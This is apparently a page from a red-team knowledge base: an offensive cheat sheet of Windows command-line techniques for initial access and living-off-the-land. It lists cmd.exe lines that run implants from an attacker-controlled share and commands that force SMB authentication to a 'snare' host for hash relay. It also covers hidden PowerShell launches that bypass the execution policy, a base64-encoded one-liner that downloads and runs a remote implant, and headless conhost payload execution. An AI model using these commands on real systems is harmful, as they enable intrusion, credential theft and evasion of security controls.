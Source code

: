```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - windows
---
```

# Windows CLI Console

## Command Prompt

> [!INFO] [Character Maximum Limit](https://learn.microsoft.com/en-us/troubleshoot/windows-client/shell-experience/command-line-string-limitation)
> The maximum length of the string that you can use at the command prompt is 8191 characters.

Execute commands.

```
C:\> cmd.exe /c <commands>
```

```
C:\> cmd.exe - < [<drive_letter>:\]path\to\implant.txt

C:\> cmd.exe /k - \\<attacker_IP>\path\to\implant.txt

C:\> cmd.exe /k < \\<attacker_IP>\path\to\implant.txt
```

Execute command to perform SMB authentication relay.

```
C:\> echo 1 > //snare/share

C:\> pushd \\snare\share

C:\> cmd.exe /k \\snare\share

C:\> cmd.exe /c \\snare\share

C:\> start \\snare\share

C:\> mkdir \\snare\share

C:\> type \\snare\share

C:\> dir \\snare\share

C:\> net.exe view \\snare

C:\> "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File \\snare\share\file.txt
```

TODO: Check the rest

```
find.exe, findstr.exe, [x]copy, move, replace.exe, del, rename and many more!
```

## PowerShell

System32 is for 32-bit powershell payloads

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ex bypass -f file.ps1

C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f file.ps1
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f shell.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f shell.ps1
```

### Base64 encoded

Encode the string of commands.

```
$ str="IEX ((New-Object Net.WebClient).DownloadString('http://<IP>/implant.ps1'))"

$ echo -en $str | iconv -t UTF-16LE | base64 -w 0

$ echo -en $str | iconv -t UTF-16LE | basenc -w 0 --base64

$ echo -en $str | iconv -t UTF-16LE | openssl enc -base64 -A

$ echo -en $str | iconv -t UTF-16LE | openssl enc -a -e -A
```

Then execute it in a one-liner.

```
C:\> powershell.exe -nop -NonI -Nologo -w hidden -enc <base64_encoded>
```

### Execution Policy

```
PS C:\> Set-ExecutionPolicy Bypass -Scope <CurrentUser | Process> [-File C:\path\to\file.ps1

PS C:\> $Env:PSExecutionPolicyPreference="bypass"
```

Execute cmdlet to perform SMB authentication relay.

```
PS C:\> Get-ChildItem \\snare\share

PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null
```

## Conhost

```
C:\> conhost.exe --headless <commands>
```

```
C:\> conhost.exe --headless powershell.exe -nop -NonI -Nologo -w hidden -enc <base64_encoded>

C:\> conhost.exe --headless powershell.exe -noni -nop -ep bypass -file implant.ps1
```

---
## References

### Backlinks

- [[03 - Malware Development/Global Helpers/Evasion/Obfuscation Techniques/Cross Platform/PowerShell||Malware Development: PowerShell Obfuscation Techniques]]

- [[Batch|Malware Development: Batch Obfuscation Techniques]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Implant/Windows/Payloads/One-Liners/Reverse Shells/PowerShell|Callback Shells: Powershell]]

### LOLBAS

- [LOLBAS: Cmd](https://lolbas-project.github.io/lolbas/Binaries/Cmd/)

- [LOLBAS: Conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)

### Github

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

### Mrd0x

- [Mrd0x: Introduction to Parent-Child Process Evasion](https://mrd0x.com/introduction-to-parent-child-process-evasion/)

### NetSPI

- [NetSPI: 15 Ways to Bypass the PowerShell Execution Policy](https://www.netspi.com/blog/technical-blog/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)